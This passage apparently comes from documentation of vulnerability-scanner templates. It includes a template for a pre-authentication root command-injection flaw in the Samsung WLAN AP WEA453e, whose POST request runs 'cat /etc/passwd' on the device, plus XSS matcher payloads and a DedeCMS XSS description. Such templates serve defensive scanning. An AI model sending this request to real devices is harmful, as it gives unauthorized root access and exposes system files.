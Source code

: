 **Type - word**
- words
    1. /tmp/www/\<script>alert(document.domain)\</script>
- part - body

**Type - status**
- status
    1. 404

**Type - word**
- words
    1. text/html
- part - header

---
# Samsung WLAN AP WEA453e - Remote Code Execution
## Description
- Samsung WLAN AP WEA453e is vulnerable to a pre-auth root remote command execution vulnerability, which means an attacker could run code as root remotely without logging in.
- severity - critical
- tags - xss,samsung,rce
## Requests
- Method - POST
- Method - POST
### URL
- {{BaseURL}}/(download)/tmp/poc.txt
  - command1=shell%3Acat /etc/passwd|dd of=/tmp/poc.txt
### Matchers

**Type - regex**
- regex
    1. root:.*:0:0:
    2. bin:.*:1:1
- part - body

**Type - status**
- status
    1. 200

---
# DedeCMS 5.7 - Cross-Site Scripting
## Description
- DeDeCMS 5.7 contains a cross-site scripting vulnerability in the '/include/dialog/config.php' file. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site.
